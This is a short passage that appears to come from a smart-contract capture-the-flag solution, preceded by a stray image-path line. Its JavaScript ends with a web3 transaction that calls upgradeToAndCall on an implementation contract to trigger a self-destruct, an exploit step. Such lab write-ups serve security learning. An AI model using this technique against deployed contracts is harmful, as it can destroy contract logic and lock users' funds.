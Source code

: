 ```
    }
]
}, [badContractAddr, data])


// Execute self destruct
await web3.eth.sendTransaction({from: player, to: implAddr, data: upgradeToAndCallData})
```
